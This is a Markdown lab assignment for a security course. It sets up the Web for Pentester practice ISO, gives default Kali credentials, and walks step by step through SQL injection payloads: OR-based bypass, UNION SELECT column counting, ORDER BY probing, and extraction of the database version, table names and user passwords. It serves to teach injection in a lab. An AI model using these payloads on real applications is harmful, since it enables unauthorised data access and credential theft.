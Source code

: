 # **SQL Injection Lab Assignment**  

### **Prerequisite**: Installation of Web for Pentester  
Before starting the lab, ensure that you have **Web for Pentester** installed on your system. Follow these steps to install it on Kali Linux:  

---

## **Installation Instructions**  

### **Kali Linux Credentials**:  
- **Username**: root  
- **Password**: toor  

### **Network Configuration**:  
1. Ensure that all systems are on the same network.  
2. If you are using your own equipment, **do not use a bridge connection**. This would place the system directly on the network your workstation is attached to.  

### **Mount the Web for Pentester ISO**:  
1. **Stop the LiveISO server** (Power OFF).  
2. Click on **Mount CDROM**.  
3. Select the appropriate options as shown in your installation guide (screenshots can be provided if needed).  

### **Boot to the Web for Pentester ISO**:  
1. Start the LiveISO server and boot from the Web for Pentester ISO file (**no login required**).  

### **Determine the IP Address**:  
Once the system boots, determine the IP address of the Pentester Lab system and record it here:  
**IP Address**: ______  

---

## **Objective**  
This lab aims to help students understand **SQL injection vulnerabilities**, how they can be exploited, and the impact of these attacks on database-driven applications.  

---

## **Using Kali Linux (or Another Server) as a Client**  

### **1. Open a Terminal**  
Launch a terminal in your Kali Linux environment.  

### **2. Determine Your Network Configuration**  
Ensure that your Kali Linux (or any other server) is connected to the same network as the Web for Pentester ISO server.  

### **3. Ping the ISO Server**  
Use the `ping` command to confirm connectivity:  
```bash
ping <Pentester Lab IP Address>
```  

### **4. Access the Web Application**  
1. Open **Firefox** (or any web browser) in your Kali Linux environment:  
   ```bash
   firefox &
   ```  
2. In the address bar, enter the IP address of the Pentester Lab server:  
   ```http://<Pentester Lab IP Address>```  

### **5. Start Exploring**  
Familiarize yourself with the web application hosted on the ISO server. This will be your **testing ground** for SQL injection techniques.  

---

## **SQL Injection Techniques**  

### **Example 1: Basic SQL Injection Using `OR`**  

#### **Expected SQL Query**:  
**Original Query**:  
```sql
SELECT id, name, age FROM table WHERE name='root'
```  
**Injected Query**:  
```sql
SELECT id, name, age FROM table WHERE name='root' OR '1'='1'
```  
**Result**: This returns all records in the table.  

#### **Payload/URL Format**:  
**Payload**:  
```
uri?name=root' OR '1'='1
```  
**Expected SQL**:  
```sql
SELECT id, name, age FROM table WHERE name='root' OR '1'='1'
```  

**With URL Encoding**:  
**Modified Payload**:  
```
uri?name=root' OR '1'='1' %23
```  
**Comment Effect**: After removing the comment, the query simplifies to:  
```sql
SELECT id, name, age FROM table
```  

---

### **Example 2: Using `UNION SELECT` to Combine Queries**  

#### **Injected URL**:  
**Payload**:  
```
url?name=root' UNION SELECT null %23
```  
**Expected SQL**:  
```sql
SELECT id, name, age FROM table WHERE name='root' UNION SELECT null #'
```  
**Result**: This returns nothing because the column numbers must match.  

#### **Determining Column Numbers**:  
- **Testing with Nulls**:  
  ```sql
  SELECT id, name, age FROM table WHERE name='root' UNION SELECT null, null, null
  ```  
- **Testing with More Columns**:  
  ```sql
  SELECT id, name, age FROM table WHERE name='root' UNION SELECT null, null, null, null, null
  ```  
- **Successful Injection**: After determining the number of columns, students can inject real data:  
  ```sql
  SELECT id, name, age FROM table WHERE name='root' UNION SELECT 1, 'goksel', 30
  ```  

---

### **Example 3: Using `ORDER BY` to Find Column Numbers**  

#### **Testing Column Numbers**:  
- **Invalid Column**:  
  ```
  url?name=root' ORDER BY 6 %23
  ```  
- **Valid Column**:  
  ```
  url?name=root' ORDER BY 5 %23
  ```  

---

### **Example 4: Extracting System Database Information**  

#### **Querying Database Version**:  
**Payload**:  
```
url?name=root' UNION SELECT 1, version(), 3, 4, 5 %23
```  
**Expected SQL**:  
```sql
SELECT id, name, age FROM table WHERE name='root' UNION SELECT 1, version(), 3, 4, 5 #'
```  

#### **Getting Database Name**:  
**Payload**:  
```
url?name=root' UNION SELECT 1, database(), 3, 4, 5 %23
```  

#### **Querying Table Information**:  
**Payload for Tables**:  
```
url?name=root' UNION SELECT table_name, 2, 3, 4, 5 FROM information_schema.tables WHERE table_schema=database() %23
```  

#### **Querying Column Information**:  
**Payload for Columns**:  
```
url?name=root' UNION SELECT column_name, 2, 3, 4, 5 FROM information_schema.columns WHERE table_name='users' %23
```  

#### **Extracting User Credentials**:  
**Injected URL**:  
```
url?name=root' UNION SELECT name, passwd, 3, 4, 5 FROM users %23
```  
